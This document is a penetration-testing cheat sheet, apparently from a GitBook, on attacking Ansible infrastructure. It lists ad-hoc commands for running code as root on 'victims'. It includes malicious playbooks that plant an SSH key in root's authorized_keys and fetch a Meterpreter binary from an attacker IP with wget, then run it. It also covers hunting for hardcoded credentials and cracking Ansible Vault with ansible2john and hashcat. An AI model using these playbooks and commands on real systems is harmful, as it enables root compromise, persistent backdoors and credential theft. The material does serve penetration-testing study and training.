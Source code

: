 # Ansible

### Enumerating Ansible

* Is Ansible in use? (Server)

```
ansible

ls /etc/ansible

grep ansible /etc/passwd
```

* Identify Ansible nodes (Client)

```
grep ansible /etc/passwd
```

### Attack Vectors

* Initiated from server
* ad-hoc commands
* playbooks
* Running ansible commands

```
su ansibleadm

ansible victims -a "whoami" 
```

* running as root the name victims comes from the /etc/ansible/hosts file so adjust as needed

```
ansible victims -a "whoami" --become
ansible appservers -a "whoami"
```

## Ansible Playbooks&#x20;

* Running playbooks

```
ansible-playbook [playbookname.yml]
```

## Exploiting Playbooks

### root

* run playbooks as the ansible user

### not root

* search for hardcoded creds in playbooks
  * ansible\_become\_pass
  * /var/log/syslog | grep for pass

## Adding tasks if writable

```
- name: Get system info
	hosts: all
	gather_facts: true
	become: yes
	tasks:
		- name: Display info
		  debug:
			msg: "The hostname is {{ ansible_hostname }} and the OS is {{ansible_distribution }}"

		- name: Create a directory if it does not exist
			file:
				path: /root/.ssh
				state: directory
				mode: '0700'
				owner: root
				group: root
				
		- name: Create authorized keys if it does not exist
			file:
				path: /root/.ssh/authorized_keys
				state: touch
				mode: '0600'
				owner: root
				group: root
				
		- name: Update keys
			lineinfile:
				path: /root/.ssh/authorized_keys
				line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
				insertbefore: EOF
				
				
```

* Reverse Meterpreter

```
- name: Meterpreter reverse tcp
  hosts: linuxvictim
  gather_facts: true
  become: yes
  become_user: root
  tasks:
  - name: Run command
    shell: "mkdir /tmp/shell"
    async: 10
    poll: 0
  - name: Run command
    shell: "wget http://192.168.X.Y/final.out -P /tmp/shell/"
    async: 10
    poll: 0
  - name: Run command
    shell: "chmod +x /tmp/shell/final.out "
    async: 10
    poll: 0
  - name: Run command
    shell: "/tmp/shell/final.out &"
    async: 10
```

* or

```
- name: Meterpreter reverse tcp
  hosts: linuxvictim
  gather_facts: true
  become: yes
  become_user: root
  tasks:
  - name: Run command
    shell: "mkdir /tmp/shell && wget http://192.168.X.Y/final.out -P /tmp/shell/ && chmod +x /tmp/shell/final.out && /tmp/shell/final.out &"   
    async: 10
    poll: 0
```



## Ansible Vault&#x20;

* Copy encrypted password

![](<../../.gitbook/assets/image (172) (1).png>)

* use ansible2john.py
* returns string for hashcat to use

```
python3 /usr/share/john/ansible2john.py ./test.yml > ans2johnhash.txt
```

* copy string into testhash.txt
* then run hashcat

```
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
```

* copy original vault string to text file and use ansible-vault decrypt with the discovered password

```
cat pw.txt | ansible-vault decrypt
```

### Ansible Data Leakage

* leak to /var/log/syslog
* Cleartext in playbooks
* unless nolog is set in the playbook
